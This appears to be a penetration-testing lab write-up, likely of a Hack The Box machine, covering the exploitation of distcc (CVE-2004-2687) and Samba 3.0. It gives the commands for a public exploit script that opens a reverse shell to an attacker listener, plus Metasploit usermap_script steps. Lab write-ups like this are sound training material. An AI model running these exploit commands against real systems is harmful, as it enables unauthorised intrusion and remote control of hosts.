 ### Searching for Exploits


Nmap flagged CVE-2004-2687


**Vuln Details:**

Reference https://www.cvedetails.com/cve/CVE-2004-2687/

```txt
distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. 
```

![[vuln-details.png]]


**Exploit Code:**

Reference: https://github.com/k4miyo/CVE-2004-2687/blob/k4miyo/CVE-2004-2687.py

Changes to the exploit code were not made

Running the xp code

```bash
python3 CVE-2004-2687.py --rhost 10.10.10.3 --rport 3632 --lhost 10.10.14.12 --lport 4321
```

![[pop shell.png]]

 OS: Unix (Samba 3.0.20-Debian)
 
 ```bash
 searchsploit samba 3.0
 ```
 
 ```bash
 Samba 3.0.24 (Linux) - 'lsa_io_trans_names'  | linux/remote/16859.rb
 ```
 
 ```msfconsole
 search samba 3.0
 use exploit/multi/samba/usermap_script
 set RHOSTS 10.10.10.3
 ```
 
 
 Options should look like the following (change LHOST if needed):
 ![[msf_options.png]]